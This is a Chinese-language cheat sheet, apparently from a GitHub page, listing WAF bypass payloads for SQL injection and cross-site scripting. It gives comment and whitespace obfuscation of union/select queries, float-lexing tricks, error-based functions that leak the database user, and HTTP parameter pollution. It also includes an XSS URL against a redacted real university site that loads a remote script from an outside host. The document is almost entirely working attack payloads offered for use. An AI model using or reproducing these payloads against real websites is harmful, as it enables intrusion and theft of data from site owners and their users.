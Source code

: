 **关键字替换**

1. AND 等价于 &&
2. OR 等价于 ||
3. = 等价于 like
4. + 代替 空格
5. sleep() 等价于 benchmark()
6. mid()substring() 等价于 substr()

```
最直白的 payload 类似 `<script> alert('xss'); </script>`,但是你可以用 `<script src=来远程加载脚本,并绕过防护`

`http://██.██.edu.cn/██/██?search=naive%22%3E%20%3Cmeta%20name=%22referrer%22%20content=%22never%22%20%3E%20%3Cscript%20src=%22https://cdn.jsdelivr.net/gh/TomAPU/xsstest/test.js%22%3E%3C/script%3E%20%3C!--`
```

**注释符绕过**

1. `/**/` 与 `/*!*/` ,还可以代替空格
2. `select/*@a?v|ddd--n*/xxxxx/*@a?v|ddd--n*/from/*a?v|ddd--n*/xxxx`由于waf解析注释符耗费性能，因此这种方法结合fuzz能找到漏网之鱼
3. emoji 表情
4. -- 与 #

```
Union 注入时 `union select 1 from 2` 替换成 `union/*fuckyou//*a*//*!select*/1/*fuckyou//*a*//*!from*/2`

order by 测试时直接把空格换成 `/**//**/`
```

**空白符绕过**

1. 正则表达式空白符: %09,%0a,%0b,%0D,%20
2. mysql空白符: %09,0A,%0b,%0D,%20,%0C,%A0,/**/

**浮点数词法解析**

1. select * from xxx where id=8E0union select 1,2,3,4,5,6,7E0from xxxx
2. select * from xxx where id=8.0union select 1,2,3,4,5,6,7.0from xxxx
3. select * from xxx where id=8\Nunion select 1,2,3,4,5,6,7 \Nfrom xxxx

**利用不常用报错函数绕过**

1. select extractvalue(1,concat(1,user()));
2. select updatexml(1,concat(1,user()),1);
3. select exp(~(select * from(select user())a));

**hpp 方式**

HPP 是指 HTTP 参数污染。形如以下形式：`?id=1&id=2&id=3` 的形式，此种形式在获取 id 值的时候不同的 web 技术获取的值是不一样的。
假设提交的参数即为：
```
id=1&id=2&id=3

Asp.net + iis：id=1,2,3
Asp + iis：id=1,2,3
Php + apache：id=3

形如 index.php?a=[whitelist]&a=select 1 union select 2
```

